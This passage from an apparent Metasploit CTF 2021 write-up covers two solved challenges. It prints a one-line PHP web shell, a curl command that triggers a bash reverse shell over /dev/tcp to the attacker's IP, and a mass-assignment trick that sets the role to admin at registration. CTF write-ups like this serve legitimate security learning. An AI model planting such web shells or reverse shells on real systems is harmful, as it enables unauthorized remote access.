 Now I uploaded a file with the following php code that executes system commands.

```php
<?php echo system($_REQUEST['cmd']);?>
```

{{< image src="/img/metasploitctf2021/metasploit-ctf-35.png" alt="" position="center" style="border-radius: 8px;" >}}

Using this curl command we get a reverse shell.

```sh
curl -G --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/172.17.6.180/53 0>&1 &'" http://172.17.6.181:20055/file_uploads/execute.mike
```

{{< image src="/img/metasploitctf2021/metasploit-ctf-36.png" alt="" position="center" style="border-radius: 8px;" >}}

With the shell we can copy the flag to the uploads location to download it from the browser.

**Flag:**

{{< image src="/img/metasploitctf2021/9ofspades.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4 of Diamonds

This challenge was on port 10010. When we load it on the browser we get the following app.

{{< image src="/img/metasploitctf2021/metasploit-ctf-37.png" alt="" position="center" style="border-radius: 8px;" >}}

After creating an account the account information is stored in the response in a script tag.

{{< image src="/img/metasploitctf2021/metasploit-ctf-38.png" alt="" position="center" style="border-radius: 8px;" >}}

All these parameters are those provided during registration. We can try to manipulate the role from user to admin.

During registration I intercepted the request with burp and added role as admin.

{{< image src="/img/metasploitctf2021/metasploit-ctf-39.png" alt="" position="center" style="border-radius: 8px;" >}}

We then get access to the admin panel that has the flag.

{{< image src="/img/metasploitctf2021/metasploit-ctf-40.png" alt="" position="center" style="border-radius: 8px;" >}}

**Flag:**

{{< image src="/img/metasploitctf2021/4ofdiamonds.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion

Some great new challenges this year and definitely more challenging. Looking forward to next year's CTF. 
